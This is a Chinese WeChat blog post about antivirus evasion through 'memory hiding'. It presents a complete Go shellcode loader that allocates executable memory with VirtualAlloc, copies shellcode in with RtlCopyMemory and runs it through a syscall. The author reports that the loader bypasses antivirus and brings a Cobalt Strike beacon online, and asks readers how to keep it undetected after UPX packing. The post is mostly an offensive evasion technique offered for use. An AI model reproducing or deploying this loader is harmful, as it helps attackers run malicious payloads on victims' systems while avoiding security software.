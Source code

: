 ##  我的免杀之路：内存隐藏

原创 Snaker  [ Snaker独行者 ](javascript:void\(0\);)

**Snaker独行者** ![]()

微信号 gh_e5407d383892

功能介绍 记录本人网络安全知识/经验/笔记，致敬未来的我。

____

__

收录于话题

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825082741.png)

  

**【简述】**

 **  
**

内存隐藏技术的核心在于将自己的shellcode注入到内存当中并隐藏起来，那么可以围绕Windows
API中的RTLCopyMemory函数开展，RTLCopyMemory函数是Windows内核函数，能够实现内存块的复制。而同样能够实现内存块复制的，还有一个RTLMoveMemory函数，然而RTLCopyMemory和RTLMoveMemory的区别在于是非重叠内存区域的复制，RTLCopyMemory非重叠复制，而RTLMoveMemory是重叠复制。这很好理解，看图：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825082756.png)



如果需要将A到C段的内存复制到B到D段内存上，这B到C段的内存就是重叠部分。如果使用RTLCopyMemory函数，重叠的部分不会被覆盖；如果使用RTLMoveMemory函数，重叠的部分也会被覆盖，当然，两者的结果都是一样的。经过测试，也证实了自己的想法，无论是用RTLCopyMemory还是RTLMoveMemory函数，都可以达到免杀的目的。

  

  

  

 **【实现思路】**

 **  
**

直接上核心代码部分，难度不大

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     func ShellCode_RTLCopyMemory(shellcode string) error {    bad_Shellcode := []byte(shellcode)    addr, _, err := VirtualAlloc.Call(0, uintptr(len(bad_Shellcode)), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)    if addr == 0 {      return err    }    ds, _ := hex.DecodeString(shellcode)    _, _, err = RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&ds[0])), uintptr(len(shellcode)))    if err != nil {       if err.Error() != "The operation completed successfully." {          return err       }    }    _, _, err = syscall.Syscall(addr, 0, 0, 0, 0)    if err != nil {       if err.Error() != "The operation completed successfully." {          return err       }    }    return nil}

着重说一下关于RTLCopyMemory函数，它有三个参数

 **参数**

|

 **意义**  
  
---|---  
  
Destination

|

数据类型：void*。指向要将字节复制到的目标内存块的指针。  
  
Source

|

数据类型：const void*。指向要从中复制字节的源内存块的指针。  
  
Length

|

数据类型：size_t。要从源复制到目标的字节数。  
  
复制需要源内存块的指针和目标内存块的指针，因为内存块的复制会导致地址偏移，所以这里必须要unsafe.Pointer和uintptr配合来实现，然而目标地址怎么设置呢？这就需要用到VirtualAlloc函数进行虚拟内存分配，我们需要的虚拟内存大小就是shellcode的长度，所以这里的目标地址就是我们申请的虚拟内存地址。源内存块地址就是shellcode转化成字节后，即ds[]，第0位的指针位置，即&ds[0]（备注：golang中的&和*符号都是指针符号，&符号的意思是对变量取地址，*符号的意思是对指针取值。）  
其实这就是 **内存注入技术**
，通过VirtualAlloc申请一块内存空间，VirtualAlloc如果调用成功，则返回分配的首地址。接着将Shellcode复制到VirtualAlloc申请的内存中，进行调用。这种方法的优势就是被发现的概率很低，甚至可以被忽略，注入后将注入工具删除即可。但是这种技术也存在一个弊端，因为内存是易失性存储器，所以系统必须一直开机，不能关闭。

  

最后的CS上线免杀效果：

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825082757.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825082759.png)

  

（这里本人有个问题不知道该如何解决，没经过upx压缩的并不会报毒，能成功bypass，而经过upx压缩的会被查杀出来，我已经修改过upx的静态特征，但是依旧被查杀出来，望师傅们指点指点）

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825082800.png)

  

  

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

我的免杀之路：内存隐藏

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()

